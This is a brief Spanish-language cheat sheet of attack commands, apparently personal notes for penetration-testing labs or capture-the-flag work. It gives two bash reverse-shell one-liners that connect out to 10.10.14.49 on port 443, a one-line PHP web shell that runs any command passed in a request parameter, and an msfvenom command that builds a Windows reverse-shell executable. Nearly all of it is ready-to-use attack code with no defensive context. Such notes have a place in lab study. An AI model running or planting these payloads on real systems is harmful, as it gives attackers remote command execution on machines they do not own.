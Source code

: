 # SHELLs y y RCE
Aqui iremos describiendo las diferentes maneras de crear SHELLs a medida que nos las encontremos.

## LINUX

Diferentes manereas de crear shells en linux.

La manera mas directa de crear una reverse shell en linus es:
<pre>
bash -i >& /dev/tcp/10.10.14.49/443 0>&1
</pre>

Aunque a veces es mejor indicarselo como parámetro:

<pre>
bash -c "bash -i >& /dev/tcp/10.10.14.49/443 0>&1"
</pre>

## PHP

Ejecución de comandos

~~~
  <?php system($_REQUEST["cmd"]); ?>
~~~

## MSFVENOM

### Fichero EXE
<pre>
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.51 LPORT=443 -f exe -o reverse.exe
</pre>
